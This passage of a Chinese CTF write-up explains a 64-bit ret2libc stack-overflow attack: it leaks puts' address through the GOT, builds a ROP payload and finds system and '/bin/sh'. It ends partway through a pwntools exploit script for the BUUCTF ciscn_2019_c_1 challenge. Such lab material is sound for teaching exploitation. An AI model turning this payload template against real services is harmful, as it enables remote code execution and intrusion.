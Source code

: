 



### 方法二：栈溢出

#### 1. puts函数

![image-20240529174702310](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202406012219604.png)

1. 利用 **puts函数** ，泄漏一个函数的got地址，然后输出got地址处的数据，即为该函数的真实地址。
2. 首先确定栈溢出的位置：ida中查看栈的位置，确定好溢出的偏移。

![image-20240529175118360](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202406012219800.png)

3. 使用 **ELF.got[fun_name]，ELF.plt['puts']** ,泄漏 fun_name的got地址和 **puts函数的plt地址**。

4. 利用栈溢出、got地址、puts函数的plt地址来输出got地址处的值，即fun_name函数的地址：

   * 64位下puts参数传递：利用 **rdi寄存器** 传递参数，使用指令 **ROPgadget --binary xxx --only ‘pop|ret’ ** 拿到ret_addr用来给rdi传参。
   * 构造 **payload = b'a'*(offset)+p64(ret_addr)+p64(got)+p64(puts_plt)+p64(ret)**
   * 其中 **got** 是给调用puts函数是传递的参数，puts_plt是用来调用puts函数，最后ret是执行完puts函数后返回的地址可斟酌选择。（一般用 **puts函数** 输出 **puts函数的地址** ）
   * sendline完成，recv接受fun_name函数的地址： **addr=u64(p.recv(6).ljust(0x8,b'\x00'))**，其中recv(6)表示只接受6字节的数据， **ljust** 将接受到的数据 **左对齐** ，并且 **长度位8个字节** （保证u64转化位无符号整数时满64bit即8字节，否则会报错），不足的用00补充。
   * 然后同样使用 **libc = LibcSearcher('puts',addr)，libcbase = addr - libc.dump('puts')** 选择libc版本计算libc的基地址libcbase。
   * 最后计算 **system函数** 和 **str_bin_sh** 的地址：
     * sys_addr = libcbase + libc.dump('system')，sh_addr = libcbase + libc.dump('str_bin_sh')

   ![image-20240529180635845](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202405291806891.png)

   ##### 实例：

   1. 题目：[BUUCTF在线评测 (buuoj.cn)](https://buuoj.cn/challenges#ciscn_2019_c_1)

   2. EXP：

      ``````python
      from pwn import *
      from LibcSearcher import *
      
      context(os='linux', arch='amd64', log_level='debug')
      
      p=remote("node5.buuoj.cn",29996)
      
      elf = ELF('./ciscn_2019_c_1')
      ret_address = 0x400c83
      
      got = elf.got['puts']		#0x602020
      plt = elf.plt['puts']
      #print(hex(got))
      main_address = 0x400B28
      p.recv()
      p.sendline(b'1')
      p.recvuntil(b"encrypted\n")
      
